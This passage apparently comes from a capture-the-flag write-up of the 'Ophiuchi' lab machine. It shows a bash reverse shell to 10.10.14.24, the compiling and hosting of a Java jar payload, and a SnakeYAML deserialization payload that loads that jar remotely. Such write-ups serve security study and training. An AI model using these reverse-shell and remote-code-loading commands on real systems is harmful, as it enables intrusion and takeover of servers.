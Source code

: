 ```bash
        }
    }
...
```

The bash reverse shell was the following one:

```bash
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.24/80 0>&1
```

After having prepared the payloads, the java file was compiled as described inside the repo and the second stage payload was hosted:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The exploit was then submitted to the parser and the second stage payload was downloaded:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24/yaml-payload.jar"]]]]
```

![Pasted image 20210502221717.png](../../zzz_res/attachments/Pasted_image_20210502221717.png)
